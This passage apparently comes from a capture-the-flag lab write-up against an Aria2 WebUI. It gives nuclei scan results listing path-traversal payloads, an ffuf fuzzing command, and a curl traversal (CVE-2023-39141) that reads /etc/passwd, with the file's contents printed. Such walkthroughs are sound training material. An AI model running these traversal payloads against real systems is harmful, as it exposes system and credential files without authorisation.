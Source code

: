 ```sh
[CVE-2019-7315] [http] [high] http://10.10.191.125:8888/../../../../../etc/passwd
[CVE-2018-6184] [http] [high] http://10.10.191.125:8888/_next/../../../../../../../../../etc/passwd
[CVE-2017-16877] [http] [high] http://10.10.191.125:8888/_next/../../../../../../../../../../etc/passwd
[magicflow-lfi] [http] [high] http://10.10.191.125:8888/msa/../../../../../../../../etc/passwd
[CVE-2019-18922] [http] [high] http://10.10.191.125:8888/../../../../../../etc/passwd
[form-detection] [http] [info] http://10.10.191.125:8888
[opencti-lfi] [http] [high] http://10.10.191.125:8888/static/css//../../../../../../../../etc/passwd
[CVE-2010-4231] [http] [high] http://10.10.191.125:8888/../../../../../../../../../../../../../etc/passwd
[tech-detect:google-font-api] [http] [info] http://10.10.191.125:8888
[tech-detect:angular] [http] [info] http://10.10.191.125:8888
[CVE-2022-38794] [http] [high] http://10.10.191.125:8888/../../../../../../../../etc/passwd
[ibm-infoprint-lfi] [http] [high] http://10.10.191.125:8888/./../../../../../../../../../../etc/passwd
[CVE-2018-3714] [http] [medium] http://10.10.191.125:8888/node_modules/../../../../../etc/passwd
[nginx-merge-slashes-path-traversal] [http] [high] http://10.10.191.125:8888///////../../../etc/passwd
[CVE-2019-11510] [http] [critical] http://10.10.191.125:8888/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/
[CVE-2021-43496] [http] [high] http://10.10.191.125:8888/img/../../../../../../etc/passwd
[exposed-file-upload-form] [http] [info] http://10.10.191.125:8888

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.191.125:8888/FUZZ
```

Results:
```sh
flags                   [Status: 500, Size: 82, Words: 9, Lines: 2, Duration: 183ms]
```

## Exploitation

### Foothold
1. After the recon phase we discovered we have Aria2 WebUI running on port 8888
2. As per nuclei scan there are a couple of path traversal vulnerabilities one in particular marked as high CVE-2023-39141
3. Searching for Aria2 and the CVE we can see the app is vulnerable, more about this here https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e
4. To check the vulnerability we can run curl on /etc/passwd location:

```sh
curl --path-as-is http://10.10.191.125:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```